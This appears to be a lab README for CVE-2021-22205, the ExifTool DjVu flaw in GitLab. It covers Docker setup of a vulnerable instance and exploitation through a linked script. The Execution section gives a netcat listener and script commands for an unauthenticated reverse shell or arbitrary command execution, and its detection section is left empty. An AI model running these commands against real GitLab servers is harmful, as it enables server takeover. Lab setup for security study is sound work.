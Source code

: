 # ExifTool DjVu (CVE-2021-22205)
## Summary

CVE-2021-22205 affects exiftool's DjVu "Copyright" metadata field that results in code execution. In Gitlab EE/CE versions starting from 11.9 and patched in 13.10.3, 13.9.6, and 13.8.8, an attacker is able to upload an image to the `/uploads/user` unauthenticated, where the image is then analyzed by the vulnerable version of exiftool. The resulting code is executed as the `git` user, which provides full access to the gitlab instance, including the administrator `gitlab-rails` console.

## Prerequisites

The prerequisite for the setup is to have docker installed and running. For the attack path, the only prerequisite is a vulnerable version of Gitlab installed.

## Setup

First, clone or grab the `gitlab-setup.sh` file from [this repository.](https://github.com/NukingDragons/gitlab-setup)

To perform an online install of the vulnerable Gitlab instance, run the following command (Set the hostname to your preference, or to the IP of the interface you wish to host this on):
```bash
./gitlab-setup.sh -v 13.8.6-ce.0 -H gitlab.example.com
```

By default, the docker will start automatically on the specified hostname.

To perform an offline installation, first run the following command on a machine that *DOES* have an internet connection:

```bash
./gitlab-setup.sh -v 13.8.6-ce.0 -e --fetch-only
```

Then, move *BOTH* the `gitlab-setup.sh` file and the resulting `gitlab-ce-13.8.6-ce.0.docker` file to the offline machine.

Once the files have been moved over, install and start the Gitlab instance by running the following command on the offline machine:

```bash
./gitlab-setup.sh -i /path/to/gitlab-ce.13.8.6-ce.0.docker -H gitlab.example.com
```

Then, browse to the page given the specific hostname, and set the administrator password. Once it's been set, the instance will be fully functional. Be sure to log in and adjust any settings, add users, and/or add any repositories that are needed.

## Execution

### Method 1 - Reverse Shell

To exploit a vulnerable instance of Gitlab, first clone [this repository](https://github.com/NukingDragons/gitlab-cve-2021-22205), or download the bash script.

First, start a local netcat listener on your port of choice:

```bash
nc -lvnp 1337
```

Then, to obtain a shell, simply run the following command:

```bash
./cve-2021-22205.sh -t http://gitlab.example.com -i <your interface IP> -p <your specified port>
```

Alternatively, the script will deduce the IP for you and the port will be assumed to be 1337 if unspecified.

![image](./images/Pasted%20image%2020231101113528.png)

#### Indicators of Compromise

TODO

### Method 2 - Any Command

To exploit a vulnerable instance of Gitlab, first clone [this repository](https://github.com/NukingDragons/gitlab-cve-2021-22205), or download the bash script.

To run a custom command against the target, run the following command:

```bash
./cve-2021-22205.sh -t http://gitlab.example.com -c "<your command here>"
```